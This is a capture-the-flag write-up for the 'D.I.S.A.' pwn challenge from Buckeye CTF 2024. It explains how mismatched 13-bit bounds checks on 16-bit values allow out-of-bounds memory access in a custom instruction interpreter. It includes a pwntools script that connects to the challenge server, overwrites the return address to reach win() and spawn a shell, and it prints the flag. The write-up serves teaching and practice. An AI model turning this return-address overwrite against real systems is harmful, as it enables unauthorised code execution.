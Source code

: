 # pwn/D.I.S.A.

A challenge from Buckeye CTF 2024

### Description

disa is the panicle of high performance and innovative design. 13bit is the future, everything else is pure cope. Embrace the performance and safety of disa

Co-authored by: auska

nc challs.pwnoh.io 13430

File: [disa.zip](./disa.zip)

### Solve

Glancing through the source for this challenge, it's an implementation of a custom instruction set. It operates on a grid of `int16_t` numbers, but the vulnerability was clear very quickly. We can go to arbitrary locations using `JMP`. Here's a demo of the vulnerability:

```
└─$ ./disa
D.I.S.A. (Dumb Instruction Set Architecture) Interpreter
Send your .nut program:
PUT -12
RD
-12
JMP
LD
RD
25393
```

Since we haven't written anything, we shouldn't be able to read out of bounds like that. I thought it was just negative at first, then I realized the max and min they set in `disa.h` were based on 13 bits and the integers we were working with were 16 bits. That means I could load up a number, jump to a positive number outside the range (like the return address), and edit it to return to win. I also needed to set the value to 0, but I also could just skip past that instruction and jump right to the shell, which I did lol.

The only problem was PIE. Luckily, the lower 3 nibbles are consistent no matter what, so I just subtracted based off the offset of the existing return address and the address I wanted to jump to in `win()`.

Solve code:

```py
from pwn import *

# initialize the binary and set the context (architecture, etc.)
binary = "./disa" # ensure it is executable (chmod +x)
elf = context.binary = ELF(binary, checksec=False)

gs = """
break main
continue
"""

# run with python3 solve.py REMOTE
if args.REMOTE:
    p = remote("challs.pwnoh.io", 13430)

# run with python3 solve.py GDB
elif args.GDB:
    context.terminal = ["tmux", "splitw", "-h"]

    p = gdb.debug(binary, gdbscript=gs)

# run with python3 solve.py
else:
    p = elf.process()


### START HERE ###

# offset of 16424, which is 8212 uint16_t's
p.sendline(b'PUT 2053')
for i in range(4):
    p.sendline(b'ADD')
p.sendline(b'LD')
p.sendline(b'RD')
p.sendline(b'JMP')
p.sendline(b'LD')
p.sendline(b'RD')
p.interactive()
# get there and subtract some 765 from the return address
p.sendline(b'PUT -765')
p.sendline(b'ADD')

p.sendline(b'END')

p.interactive()

# you do have to ctrl+C after you have interactive, but then you have a shell
```

Flag: `bctf{w417_4c7u411y_13_b17_c0mpu73r5_fuck1n9_5uck}`